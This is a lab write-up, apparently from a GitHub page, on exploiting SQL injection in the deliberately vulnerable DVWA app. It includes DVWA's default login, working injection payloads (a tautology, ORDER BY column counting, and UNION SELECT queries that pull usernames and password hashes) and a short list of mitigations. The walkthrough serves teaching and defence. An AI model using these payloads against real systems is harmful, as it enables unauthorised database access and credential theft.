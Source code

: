 ## DVWA – SQL Injection

---

### 🎯 Objective
Exploit SQL Injection in DVWA to enumerate databases, extract tables, and recover sensitive data.

---

### 🧪 Setup
1. Launch DVWA in Kali
2. Login:  
   ```
   admin / password
   ```
3. Go to **SQL Injection** in left menu
4. Set security level to **Low**

---

### ⚙ Exploitation

#### 1️⃣ Basic Injection
```
1' OR '1'='1
```
Forces the SQL query to always return true → displays all users.

**DB Info (Lab):**
- DBMS: MariaDB 10.5.19
- DB Name: dvwa

---

#### 2️⃣ Enumerating Columns
```
1' ORDER BY 3 --
```
Increase column number until error → reveals column count.

---

#### 3️⃣ Listing Columns from Table
```
1' UNION SELECT column_name, null 
FROM information_schema.columns 
WHERE table_name='users' --
```
Relevant columns: `user`, `password`

---

#### 4️⃣ Extracting Credentials
```
1' UNION SELECT user, password FROM users --
```
**Lab Findings:**
- Admin account present
- Example: `pablo` with hash `<hash_value>`

---

### 🛡 Mitigation
- Use prepared statements / parameterized queries
- Input sanitization & validation
- Least privilege for DB accounts

---

### 📌 Take-Aways
- SQLi can grant complete DB control
- Even simple test apps mirror real-world vulnerabilities

